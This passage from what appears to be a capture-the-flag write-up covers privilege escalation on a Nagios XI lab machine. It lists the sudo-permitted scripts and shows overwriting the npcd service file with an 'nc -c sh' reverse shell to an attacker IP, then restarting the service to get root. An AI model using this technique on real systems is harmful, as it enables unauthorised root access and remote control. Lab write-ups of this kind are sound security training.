 That's the user flag caught! We can stabilise the shell using [this trick](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

## Privesc

We first do a `sudo -l` to check what we can run as root :

```
nagios@monitored:/home/nagios $ sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *


```

Out of all of these program, `manage_service.sh` lets use `start`, `stop` `restart` `reload` and use more commands on the service `npcd` . A look at the script tells us that the service file is located at `/usr/local/bin/npcd`. If we modify the file with the following code :

```bash
#!/bin/bash

nc -c sh 10.10.14.134 6968
```

Now let's do a `sudo manage_service.sh stop npcd` and then a `sudo manage_service.sh start npcd`. And check our terminal waiting for another reverse shell :
